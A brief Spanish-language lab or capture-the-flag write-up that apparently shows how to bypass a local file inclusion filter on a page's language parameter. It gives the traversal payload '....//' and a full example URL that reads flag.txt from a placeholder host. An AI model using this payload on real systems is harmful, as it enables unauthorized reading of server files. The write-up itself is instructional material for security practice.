


# LFI: ByPass Filter 🔐

La página web que vulneraremos es:

* Podemos seleccionar un **lenguaje** para nuestra página web, aquí es donde la url usa un **párametro** `?languaje=languages/<Archivo>.php`

---

El payload que usaremos es: `....//....//....//`
* **URL**: `http://<IP>/index.php?language=languages/....//....//....//....//....//flag.txt`

    

